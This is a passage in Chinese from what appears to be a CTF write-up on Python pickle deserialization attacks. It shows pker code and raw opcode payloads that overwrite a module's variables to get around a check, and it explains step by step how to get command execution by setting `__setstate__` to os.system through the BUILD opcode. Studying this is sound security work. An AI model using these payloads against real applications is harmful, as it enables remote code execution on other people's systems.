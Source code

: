 这里我们通过加载`__main__.secret`可以引入secret模块，来把`secret.name`和`secret.category`这两个变量覆盖为任意字符串，再以这个字符串为参数构造Animal对象（栈顶对于type的检查）

pker

```python
secret = GLOBAL('__main__', 'secret')
secret.name = 'frieggs'
secret.category = 'frieggs'
animal = INST('__main__', 'Animal', 'frieggs', 'frieggs')
return animal
# b"c__main__\nsecret\np0\n0g0\n(}(S'name'\nS'frieggs'\ndtbg0\n(}(S'category'\nS'frieggs'\ndtb(S'frieggs'\nS'frieggs'\ni__main__\nAnimal\np3\n0g3\n."
```

或者构造的exp.py

```python
import pickle

class Animal:
    def __init__(self, name, category):
        self.name = name
        self.category = category

    def __repr__(self):
        return f'Animal(name={self.name!r}, category={self.category!r})'

    def __eq__(self, other):
        return type(other) is Animal and self.name == other.name and self.category == other.category

print(pickle.dumps(Animal(name="x", category="y"), protocol=3))
# b'\x80\x03c__main__\nAnimal\nq\x00)\x81q\x01}q\x02(X\x04\x00\x00\x00nameq\x03X\x01\x00\x00\x00xq\x04X\x08\x00\x00\x00categoryq\x05X\x01\x00\x00\x00yq\x06ub.'
```

————所以在不允许`b'R'`的情况下，思路则是篡改secret中的name和categoriy，单纯的用`b'c'`引入模块对Animal进行实例化，这一过程也相当于是执行了函数
{{% /spoiler %}}

一种解决办法就是这个栗子中的，干脆就不rce，而是用`b'c'`变量覆盖，思路就是上个三级标题下面的那个大段，不再赘述。

### -->>使用`__setstate__`&`b'b'`实现rce

另一种方式是用BUILD指令`b'b'`及进行rce。

在pickle源码中BUILD指令是这样的

![img](https://pic2.zhimg.com/80/v2-ae7ce8d82f16d90bda791e4bc5e06f1d_1440w.jpg)

如果一个实例inst拥有`__setstate__`方法，则把`state`交给`__setstate__`方法来处理；否则直接把`state`这个`dist`的内容合并到`inst.__dict__ `内。

如果一个类原本没有`__setstate__`这个方法，当我们用`{'__setstate__': os.system}`来BUILD这个对象，那么现在对象的`__setstate__`就变成了`os.system`；接下来利用`"ls /"`来再次BUILD这个对象，则会执行`setstate("ls /")` ，而此时`__setstate__`已经被我们设置为`os.system`，因此实现了rce
